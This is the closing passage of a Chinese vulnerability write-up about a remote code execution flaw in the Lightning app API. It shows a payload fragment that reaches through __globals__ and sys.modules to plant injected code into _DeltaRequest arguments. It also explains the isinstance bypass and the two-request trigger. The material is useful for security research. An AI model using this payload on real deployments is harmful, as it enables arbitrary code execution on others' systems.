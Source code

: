 ```
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.args": (injected_code,),
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.kwargs": {},
"root['function'].'__globals__'['_sys'].modules['lightning.app'].api.request_types._DeltaRequest.id": "root"

```  
  
这里注入代码里除了有我们执行命令的语句，后面还跟了一堆，这是为了将之前绕过过程中修改的类还原，否则再次更换注入命令后不会走动态赋值的那部分代码。并且动态赋值的部分代码在绕过之后，所以我们发送第一个请求后需要再发一次请求才会走我们动态覆盖变量后的逻辑  
  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXL9KDicX20E03RSXotRz5lBRdTQkkRP42LYa0s8HtVmdZ4c7LDhgkwO71uSNJuQcQScqqCjFTvP2tSw/640?wx_fmt=png&from=appmsg "")  
  
总结：首先将传入的内容通过反序列化成一个对象，然后通过对字典键的解析作为函数调用的路径，值作为赋值的内容，可以动态修改所有类的属性和方法，然后通过绕过一系列的isinstance判断，最终在get_component_by_name方法内，该方法允许我们查找任意对象，最后在method(*request.args, **request.kwargs)进行调用，最终实现任意函数执行  
  
> **文章来源：奇安信攻防社区**  
> **链接：https://forum.butian.net/share/3836**  
> **作者：中铁13层打工人**  
  
  
  
黑白之道发布、转载的文章中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途及盈利等目的，否则后果自行承担！  
  
如侵权请私聊我们删文  
  
  
**END**  
  
